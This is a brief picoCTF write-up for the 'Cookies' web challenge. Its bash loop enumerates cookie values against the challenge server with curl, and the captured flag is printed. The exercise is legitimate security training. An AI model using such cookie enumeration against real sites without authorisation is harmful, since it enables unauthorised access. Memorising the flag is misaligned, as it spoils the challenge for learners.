 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
## Solución

```bash
sojedelgado-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name = $1"; done | grep "pico"
sojedelgado-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name = $i"; done | grep "pico"
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
```

## Notas adicionales

## Referencias